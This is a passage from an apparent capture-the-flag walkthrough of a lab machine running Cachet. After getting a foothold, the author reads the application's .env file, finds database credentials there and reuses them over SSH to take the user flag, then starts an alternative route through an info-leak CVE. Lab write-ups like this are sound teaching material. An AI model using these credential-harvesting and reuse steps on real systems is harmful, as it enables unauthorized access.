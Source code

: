 
The `.env` file is in `/var/www/html/Cachet`:

    
    
    www-data@70e4165dab0b:/var/www/html/Cachet$ cat .env 
    APP_ENV=production
    APP_DEBUG=false
    ...[snip]...
    

If I poison the file again, I can see where my payload is inserted, taking
precedence over the legit values:

[![image-20220629140604591](https://0xdfimages.gitlab.io/img/image-20220629140604591.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220629140604591.png)

There’s also DB creds for a user will:

    
    
    DB_DRIVER=mysql
    DB_HOST=localhost
    DB_UNIX_SOCKET=null
    DB_DATABASE=cachet
    DB_USERNAME=will
    DB_PASSWORD=s2#4Fg0_%3!
    DB_PORT=null
    DB_PREFIX=null
    

#### SSH

These creds work to SSH to the host:

    
    
    oxdf@hacky$ sshpass -p 's2#4Fg0_%3!' ssh will@10.10.11.150
    Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-104-generic x86_64)
    ...[snip]...
    will@catch:~$
    

And grab` user.txt`:

    
    
    will@catch:~$ cat user.txt
    d081fca8************************
    

## Shell as will [Alt #1]

I’ll use the same techniques above to access Cachet as john. But this time,
I’ll use the info leak CVE to get the environment variables directly, skipping
the need for RCE in the container:

[![](https://0xdfimages.gitlab.io/img/Catch-Flow-
alt-1-16583671250132.png)_Click for full size
image_](https://0xdfimages.gitlab.io/img/Catch-Flow-alt-1-16583671250132.png)

